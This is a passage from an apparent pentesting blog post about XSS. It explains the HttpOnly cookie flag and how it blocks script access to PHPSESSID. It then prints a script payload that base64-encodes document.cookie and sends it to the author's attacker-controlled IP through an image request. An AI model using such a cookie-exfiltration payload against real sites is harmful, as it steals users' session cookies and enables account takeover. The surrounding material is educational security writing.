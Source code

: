and you click on *Submit*, you are going to see all your cookies in the screen... or not?

If you make that, you are going to see only the *security* cookie, like in the following screenshot 

![](/assets/images/2022-11-12-bypass-httponly-via-php-info-page/xss-cookies-alert.png)

but... Why are we not seeing the value of the *PHPSESSID* cookie? That's because the value *true* in the *HttpOnly* flag of the cookie *PHPSESSID*.

*HttpOnly* is an additional flag included in a Set-Cookie HTTP response header. Using the *HttpOnly* flag when generating a cookie helps mitigate the risk of client side script accessing the protected cookie (if the browser supports it). You can check more information about the *HttpOnly* flag in the following link

[Link of OWASP about the HttpOnly flag](https://owasp.org/www-community/HttpOnly)

For those who do not do web pentesting or who do not regularly deal with XSS, this flag may not be familiar, but for those of us who are used to looking for and reporting these vulnerabilities in bug bounty programs, this flag is the main problem we encounter when it comes to finding a real impact in an XSS.

Take a look at the following code

{% include codeHeader.html %}
```html
<script>
   var i=new Image;
   i.src="http://192.168.240.129/"+btoa(document.cookie);
</script>
```

This code is a very common way to try to exfiltrate the user cookies during an XSS exploitation. This code is executed in the client side (XSS is a client side vulnerability) and try to import a image from the IP 192.168.240.129, which is the IP of my Kali. The requested path is the user cookies encoded in *base64*. The *base64* encoding is not strictly necessary but it can be useful for passing data in URLs when the data includes non-url friendly characters.

